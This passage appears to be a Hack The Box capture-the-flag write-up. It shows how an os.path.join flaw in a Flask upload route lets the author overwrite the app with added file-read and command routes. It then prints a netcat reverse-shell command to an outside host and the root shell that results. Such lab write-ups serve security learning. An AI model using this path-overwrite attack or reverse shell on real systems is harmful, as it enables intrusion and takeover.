 <p>Checking the upload part of the app, `views.py`, we can see how it manages files.</p>

``` python
@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = <strong>os.path.join</strong>(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(<strong>os.path.join</strong>(os.getcwd(), "public", "uploads", path))

```


<p>What's wrong with this code? The issue is with "os.path.join". Reading the docs of <a href="https://docs.python.org/3/library/os.path.html#os.path.join">os.path.join</a>, we can see that if any of the parameters are an absolute path, all other parameters are thrown away. If we are able to set the path as an absolute path (EX: /app/app.py) we should be able to get a file.</p>

<strong>PROBLEM</strong>

<p>When attempting to use an absolute path on the /uploads/ endpoint, the Werkzueg app normalises the path, so /uploads//etc/passwd, just gets normalised to /uploads/etc/passwd. The other avenue is we could upload a file with the filename of an absolute path.</p>

<p>Checking the Dockerfile, we can see the location of where the app would be running, then using this short script I wrote, <a href="https://github.com/Jayden-Lind/HTB-Opensource/blob/main/upload.py">upload.py</a> this will POST this <a href="https://github.com/Jayden-Lind/HTB-Opensource/blob/main/views.py">views.py</a> file, with a filename of "/app/app.py". This gives us 2 new routes, /jayden/&lt;file name>, which will allow us to download any file from the host, then also the route /jayden_cmd/&lt;command>, which will allow us to have RCE on this box. The short upload.py script I wrote will then give us a rudimentary shell on the box.</p>

<p>Now that we have access to this host, we can just escalate to a proper shell, </p>

``` sh
CMD> nc 10.10.14.44 4000 -e /bin/sh

/app $ whoami
root
/app $ hostname
6d796f9974e9
/app $ cat /.dockerenv 
/app $ </code></pre>
```

<p>And we can then see that this is a Docker host. Now that we have access we can check for port 3000, on what service is actually running there. </p>
